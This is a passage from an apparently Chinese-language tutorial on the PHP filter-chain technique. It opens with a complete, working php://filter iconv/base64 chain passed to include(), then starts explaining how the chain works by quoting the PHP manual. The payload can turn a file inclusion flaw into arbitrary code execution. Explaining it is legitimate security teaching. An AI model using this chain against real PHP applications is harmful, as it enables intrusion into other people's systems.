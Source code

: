 ```php
$filter_chain = "php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp";
include($filter_chain);
```

接下来通过这个payload来解释下 filter-chain的原理:

1. 伪协议 `php://filter`

这一步是使用 `php://filter` 伪协议处理数据流.

> php://filter is a kind of meta-wrapper designed to permit the application of [filters](https://www.php.net/manual/en/filters.php) to a stream at the time of opening. This is useful with all-in-one file functions such as [readfile()](https://www.php.net/manual/en/function.readfile.php), [file()](https://www.php.net/manual/en/function.file.php), and [file_get_contents()](https://www.php.net/manual/en/function.file-get-contents.php) where there is otherwise no opportunity to apply a filter to the stream prior the contents being read.
> 

